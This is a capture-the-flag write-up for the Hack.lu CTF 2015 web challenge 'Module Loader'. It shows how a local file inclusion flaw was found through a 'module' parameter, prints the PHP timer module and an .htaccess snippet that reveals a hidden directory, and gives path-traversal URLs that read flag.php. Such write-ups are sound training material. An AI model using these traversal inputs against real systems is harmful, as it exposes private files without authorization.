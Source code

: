 # Hack.lu CTF 2015 - Module Loader (Web, 100pts)

## Problem

100 Points by lucebac (Web)

Since his students never know what date it is and how much time they have until the next homework's deadline, Mr P. H. Porter wrote a little webapp for that.


## Solution

We get simple web application with two available options:

![Welcome screen]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader1.png)

After quick research there's an obvious LFI (Local File Include)

![LFI]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader2.png)

We can include any file using url:

```
school.fluxfingers.net:1522/?module=../modules/timer
```

And here's source code of _timer_ module - it's just printed out, PHP code is not executed here:

```php
<?php 
if (isset($_GET['time']))
    $tmp = explode("-", $_GET['time']);
else
    $tmp = array(1970, 1, 1);
$y = (int)$tmp[0];
$m = (int)$tmp[1];
$d = (int)$tmp[2];

var_dump($y);
var_dump($m);
var_dump($d);
?>
<div id="clock"></div>
<!-- <script src="countdown.js"></script> -->
<script>
var clock = document.getElementById("clock");
var now = new Date();
clock.innerHTML = countdown(new Date(<?= $y; ?>, <?= $m; ?>, <?= $d; ?>)).toString();
setInterval(function(){clock.innerHTML = countdown(new Date(<?= $y; ?>, <?= $m; ?>, <?= $d ?>)).toString();}, 1000);
</script>

```

Also, we can display _.htaccess_, which contains some directory with quite "obvious" name :P

```
<!--
# seems to be not working, though
#<Directory "3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae">
#    Options -Indexes
#</Directory>
# -->
```

Let's take a look there and here we go:

![3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae content]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader3.png)


Last thing is to use LFI and see, what's in flag.php file:

![Flag]
(https://github.com/bl4de/ctf/blob/master/HACK.LU_CTF_2015/Module_Loader_web100/Module_Loader4.png)


school.fluxfingers.net:1522/?module=../3cdcf3c63dc02f8e5c230943d9f1f4d75a4d88ae/flag.php


flag{hidden_is_not_actually_hidden}
